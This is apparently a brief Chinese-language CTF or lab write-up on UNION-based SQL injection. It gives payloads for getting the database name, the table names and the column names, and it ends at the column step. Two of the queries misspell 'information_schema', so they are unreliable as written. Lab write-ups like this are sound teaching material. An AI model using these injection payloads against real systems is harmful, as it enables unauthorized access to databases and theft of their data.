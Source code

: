    ![](assets/PixPin_2025-05-23_17-43-31.png)

## 获取数据库

```sql
-1 union select 1,database()
```

![](assets/PixPin_2025-05-23_17-45-36.png)



## 获取表

表的数量为2

```sql
-1 union select 1,group_concat(table_name) from inofromation_schema.tables where table_schema=database()
```

![](assets/PixPin_2025-05-23_17-48-32.png)

## 获取列

```
-1 union select 1,group_concat(column_name) from inofromation_schema.columns where table_schema="flag"
```
